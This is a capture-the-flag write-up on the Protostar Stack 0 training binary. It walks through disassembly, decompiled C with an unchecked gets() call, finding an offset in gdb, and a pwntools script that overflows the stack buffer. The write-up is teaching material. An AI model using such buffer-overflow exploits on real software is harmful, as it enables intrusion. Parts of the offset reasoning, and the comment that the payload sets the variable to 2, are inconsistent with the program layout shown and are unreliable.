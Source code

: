 ```yaml
---
title: Protostar Stack 0
data: 2025-04-23
categories: [pwn]
---
```




**GOAL** : Modify a variable



```sh
0x08048405 <+17>:	lea    eax,[esp+0x1c]
0x08048409 <+21>:	mov    DWORD PTR [esp],eax
0x0804840c <+24>:	call   0x804830c <gets@plt>

```

This takes user input and stores it at [esp+0x1c]

```sh
   0x080483fd <+9>:	    mov    DWORD PTR [esp+0x5c],0x0
   0x08048411 <+29>:	mov    eax,DWORD PTR [esp+0x5c]
   0x08048415 <+33>:	test   eax,eax
   0x08048417 <+35>:	je     0x8048427 <main+51>
   0x08048419 <+37>:	mov    DWORD PTR [esp],0x8048500
   0x08048420 <+44>:	call   0x804832c <puts@plt>
   0x08048425 <+49>:	jmp    0x8048433 <main+63>
   0x08048427 <+51>:	mov    DWORD PTR [esp],0x8048529
   0x0804842e <+58>:	call   0x804832c <puts@plt>
   0x08048433 <+63>:	leave
   0x08048434 <+64>:	ret

```

Stores 0 into a variable, then compares the variable to 0;
IF true it prints "Try Again"
If false it prints "You have changed the 'modified variable"

**Ghidra Decompiled code**
```c

void main(void)

{
  char buffer [64];
  int please_change_me;
  
  please_change_me = 0;
  gets(buffer);
  if (please_change_me == 0) {
    puts("Try again?");
  }
  else {
    puts("you have changed the \'modified\' variable");
  }
  return;
}

```


---
## Developing Exploit

1. Find the  Offset (Using gdb)
	- set breakpoints at main function and `ret` instruction 
	- run the program in gdb 
	- Create pattern to fill in buffer 
```sh
gef➤  pattern create 300
[+] Generating a pattern of 300 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
[+] Saved as '$_gef1'
```

- Continue and fill in the program 
- check if the is a buffer overflow

```sh
gef➤  x/wx $ebp
0x61616174:	Cannot access memory at address 0x61616174

```
- Get the buffer size
```sh
gef➤  pattern search 0x61616174
[+] Searching for '74616161'/'61616174' with period=4
[+] Found at offset 76 (little-endian search) likely

```

Buffer size = 76
Offset = 80 | because we need to override the ebp which takes up 4 bytes


**Exploit**
```python
#!/usr/bin/python3

from pwn import *

binary = "./stack0"
elf = ELF(binary)
p = process(binary)
#goal is to modify varaible
buf_size = 76
offset = 80

payload = b"A"*offset
payload += p32(0x2) # change the varible to 2

p.sendline(payload)
p.interactive()
```
